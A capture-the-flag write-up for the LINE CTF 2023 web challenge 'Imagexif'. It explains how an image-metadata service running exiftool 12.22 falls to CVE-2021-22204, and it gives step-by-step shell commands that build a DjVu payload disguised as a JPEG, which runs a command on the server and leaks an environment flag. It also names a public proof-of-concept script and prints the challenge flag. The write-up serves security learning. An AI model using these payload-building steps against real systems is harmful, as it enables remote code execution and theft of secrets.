

# Imagexif

## Description
This site provide you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination

## Attachment
[imagexif_fd327e759b68136117e7f5edfc09ec0e.tar.gz](https://github.com/n1mdacybersec/CTF-Write-Up-Collection/blob/main/2023/LINE-CTF/Web/Imagexif/Challenge/imagexif_fd327e759b68136117e7f5edfc09ec0e.tar.gz)

## Solution
From the description of this challenge, in this website there's a vulnerability that can be exploited to gain the flag.

After searching on Google about the vulnerability of EXIF in a file, there's a vulnerability on `exiftool` and we got this [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204). This CVE could make a Remote Code Execution (RCE) to the machine. This vulnerability can be found on `Dockerfile`.

```dockerfile
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

From the `Dockerfile` the exiftool version 12.22 installed on the server is still vulnerable to CVE-2021-22204. Then, on `docker-compose.yml` file, we know that the flag in this challenge is in `environment` variable.

```yml
backend:
        build:
            context: ./backend/
        container_name: line_linectf2023_backend
        restart: always
        environment:
            - FLAG=LINECTF{redacted}
            - SCRIPT_ENV=production
        networks:
            - line-linectf2023-internal
```

I found a [link](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/) to make a payload to exploit the CVE-2021-2204. Before we craft the payload, we need to install this package.

```bash
sudo apt install -y djvulibre-bin
```

After installing the `djvulibre-bin` on my machine, now I just need to craft the payload. This payload will execute arbitrary command inside the `Copyright` metadata.

```bash
$ printf 'P1 1 1 1' > input.pbm
$ cjb2 input.pbm mask.djvu
$ djvumake exploit.djvu Sjbz=mask.djvu
$ echo -e '(metadata (copyright "\\\n" . `env` #"))' > input.txt
$ djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
$ mv exploit.djvu exploit.jpg
```

Before I send the payload to the server, I need to check it on my local machine and to make sure that the payload work as intended. The payload is success to execute command on the local server.


Now, I just need to upload the payload or the malicious image to the server for this challenge and we will get the flag.



### Alternate Solution
We can make the payload without manually executing a few lines of command. I found a Proof-of-Concept (PoC) from [bilkoh](/https://github.com/bilkoh/POC-CVE-2021-22204) to exploit CVE-2021-22204.

To use it, you just need to execute this command

```bash
./build_image.pl env
```

Where `env` is a command to be executed for target machine. After executing the above command, you'll got `notevil.jpg` as the payload and can be uploaded to the server.

## Flag
`LINECTF{2a38211e3b4da95326f5ab593d0af0e9}`
